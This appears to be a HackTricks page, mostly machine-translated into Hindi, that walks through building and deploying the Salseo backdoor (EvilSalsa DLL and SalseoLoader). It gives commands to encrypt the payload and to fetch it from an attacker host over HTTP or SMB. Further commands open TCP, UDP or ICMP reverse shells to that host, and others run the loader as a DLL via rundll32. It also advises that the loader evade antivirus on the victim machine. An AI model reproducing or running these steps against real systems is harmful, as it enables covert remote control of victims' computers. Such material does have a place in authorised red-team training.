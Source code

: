 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## बाइनरी संकलन करना

गिटहब से स्रोत कोड डाउनलोड करें और **EvilSalsa** और **SalseoLoader** संकलित करें। आपको कोड संकलित करने के लिए **Visual Studio** स्थापित करने की आवश्यकता होगी।

उन परियोजनाओं को उस विंडोज बॉक्स की आर्किटेक्चर के लिए संकलित करें जहाँ आप उनका उपयोग करने जा रहे हैं (यदि विंडोज x64 का समर्थन करता है तो उन्हें उस आर्किटेक्चर के लिए संकलित करें)।

आप **Visual Studio** में **बाएँ "Build" टैब** में **"Platform Target"** के अंदर **आर्किटेक्चर का चयन** कर सकते हैं।

(\*\*यदि आप ये विकल्प नहीं पा रहे हैं तो **"Project Tab"** पर क्लिक करें और फिर **"\<Project Name> Properties"** पर क्लिक करें)

![](<../.gitbook/assets/image (839).png>)

फिर, दोनों परियोजनाओं का निर्माण करें (Build -> Build Solution) (लॉग के अंदर निष्पादन योग्य का पथ दिखाई देगा):

![](<../.gitbook/assets/image (381).png>)

## बैकडोर तैयार करें

सबसे पहले, आपको **EvilSalsa.dll** को एन्कोड करने की आवश्यकता होगी। ऐसा करने के लिए, आप पायथन स्क्रिप्ट **encrypterassembly.py** का उपयोग कर सकते हैं या आप परियोजना **EncrypterAssembly** को संकलित कर सकते हैं:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### विंडोज
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
ठीक है, अब आपके पास सभी Salseo चीज़ें निष्पादित करने के लिए आवश्यक हैं: **कोडित EvilDalsa.dll** और **SalseoLoader का बाइनरी।**

**SalseoLoader.exe बाइनरी को मशीन पर अपलोड करें। उन्हें किसी भी AV द्वारा नहीं पहचाना जाना चाहिए...**

## **बैकडोर निष्पादित करें**

### **TCP रिवर्स शेल प्राप्त करना (HTTP के माध्यम से कोडित dll डाउनलोड करना)**

याद रखें कि रिवर्स शेल श्रोता के रूप में nc शुरू करें और कोडित evilsalsa को सर्व करने के लिए एक HTTP सर्वर शुरू करें।
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **UDP रिवर्स शेल प्राप्त करना (SMB के माध्यम से एन्कोडेड dll डाउनलोड करना)**

याद रखें कि रिवर्स शेल श्रोता के रूप में एक nc शुरू करें, और एन्कोडेड evilsalsa (impacket-smbserver) को सेवा देने के लिए एक SMB सर्वर शुरू करें।
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **ICMP रिवर्स शेल प्राप्त करना (विक्टिम के अंदर पहले से एन्कोडेड dll)**

**इस बार आपको क्लाइंट में रिवर्स शेल प्राप्त करने के लिए एक विशेष उपकरण की आवश्यकता है। डाउनलोड करें:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP उत्तर बंद करें:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### क्लाइंट को निष्पादित करें:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### पीड़ित के अंदर, चलो salseo चीज़ को निष्पादित करते हैं:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## SalseoLoader को DLL के रूप में संकलित करना मुख्य फ़ंक्शन निर्यात करते हुए

SalseoLoader प्रोजेक्ट को Visual Studio में खोलें।

### मुख्य फ़ंक्शन से पहले जोड़ें: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### इस प्रोजेक्ट के लिए DllExport स्थापित करें

#### **Tools** --> **NuGet Package Manager** --> **Manage NuGet Packages for Solution...**

![](<../.gitbook/assets/image (881).png>)

#### **DllExport पैकेज के लिए खोजें (Browse टैब का उपयोग करते हुए), और Install दबाएं (और पॉपअप को स्वीकार करें)**

![](<../.gitbook/assets/image (100).png>)

आपके प्रोजेक्ट फ़ोल्डर में फ़ाइलें प्रकट हुई हैं: **DllExport.bat** और **DllExport\_Configure.bat**

### **U**ninstall DllExport

**Uninstall** दबाएं (हाँ, यह अजीब है लेकिन मुझ पर विश्वास करें, यह आवश्यक है)

![](<../.gitbook/assets/image (97).png>)

### **Visual Studio से बाहर निकलें और DllExport\_configure निष्पादित करें**

बस **बाहर निकलें** Visual Studio से

फिर, अपने **SalseoLoader फ़ोल्डर** में जाएं और **DllExport\_Configure.bat** निष्पादित करें

**x64** चुनें (यदि आप इसे x64 बॉक्स के अंदर उपयोग करने जा रहे हैं, तो यह मेरा मामला था), **System.Runtime.InteropServices** चुनें ( **DllExport** के लिए **Namespace** के अंदर) और **Apply** दबाएं

![](<../.gitbook/assets/image (882).png>)

### **Visual Studio के साथ प्रोजेक्ट फिर से खोलें**

**\[DllExport]** अब त्रुटि के रूप में चिह्नित नहीं होना चाहिए

![](<../.gitbook/assets/image (670).png>)

### समाधान का निर्माण करें

**Output Type = Class Library** चुनें (Project --> SalseoLoader Properties --> Application --> Output type = Class Library)

![](<../.gitbook/assets/image (847).png>)

**x64** **प्लेटफ़ॉर्म** चुनें (Project --> SalseoLoader Properties --> Build --> Platform target = x64)

![](<../.gitbook/assets/image (285).png>)

**समाधान का निर्माण करने के लिए**: Build --> Build Solution (Output कंसोल के अंदर नए DLL का पथ दिखाई देगा)

### उत्पन्न Dll का परीक्षण करें

Dll को उस स्थान पर कॉपी और पेस्ट करें जहाँ आप इसका परीक्षण करना चाहते हैं।

निष्पादित करें:
```
rundll32.exe SalseoLoader.dll,main
```
यदि कोई त्रुटि नहीं आती है, तो शायद आपके पास एक कार्यात्मक DLL है!!

## DLL का उपयोग करके एक शेल प्राप्त करें

**HTTP** **सर्वर** का उपयोग करना न भूलें और एक **nc** **श्रोता** सेट करें

### पॉवरशेल
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
